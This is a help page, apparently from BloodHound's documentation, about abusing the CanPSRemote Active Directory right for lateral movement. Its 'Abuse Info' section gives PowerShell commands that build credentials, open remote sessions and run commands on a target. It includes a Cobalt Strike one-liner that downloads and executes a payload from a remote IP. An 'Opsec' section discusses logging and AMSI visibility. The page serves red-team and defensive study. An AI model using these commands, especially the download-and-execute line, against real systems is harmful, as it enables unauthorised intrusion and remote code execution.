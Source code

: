 ---
title: CanPSRemote
description: "PS Session access allows you to enter an interactive session with the target computer. If authenticating as a low privilege user, a privilege escalation may allow you to gain high privileges on the system."
---

<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>

<Info>
**Note**

This edge does not guarantee privileged execution.
</Info>

## Abuse Info

Abuse of this privilege will require you to have interactive access with a system on the network.

A remote session can be opened using the New-PSSession powershell command.

You may need to authenticate to the Domain Controller as the user with the PSRemote rights on the target computer if you are not running as that user. To do this in conjunction with New-PSSession, first create a PSCredential object (these examples comes from the PowerView help documentation):

```bash
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)
```

Then use the New-PSSession command with the credential we just created:

```bash
$session = New-PSSession -ComputerName &lt;target computer name&gt; -Credential $Cred
```
This will open a PowerShell session on the target computer

You can then run a command on the system using the Invoke-Command cmdlet and the session you just created

```bash
Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}
```

Cleanup of the session is done with the Disconnect-PSSession and Remove-PSSession commands.

```bash
Disconnect-PSSession -Session $session
Remove-PSSession -Session $session
```
An example of running through this Cobalt Strike for lateral movement is as follows:

```bash
powershell $session =  New-PSSession -ComputerName win-2016-001; Invoke-Command -Session $session
-ScriptBlock {IEX ((new-object net.webclient).downloadstring('http://192.168.231.99:80/a'))};
Disconnect-PSSession -Session $session; Remove-PSSession -Session $session
```
## Opsec Considerations

When using the PowerShell functions, keep in mind that PowerShell v5 introduced several security mechanisms that make it much easier for defenders to see what’s going on with PowerShell in their network, such as script block logging and AMSI.

Entering a PSSession will generate a logon event on the target computer.

## References

* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7)
* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7)
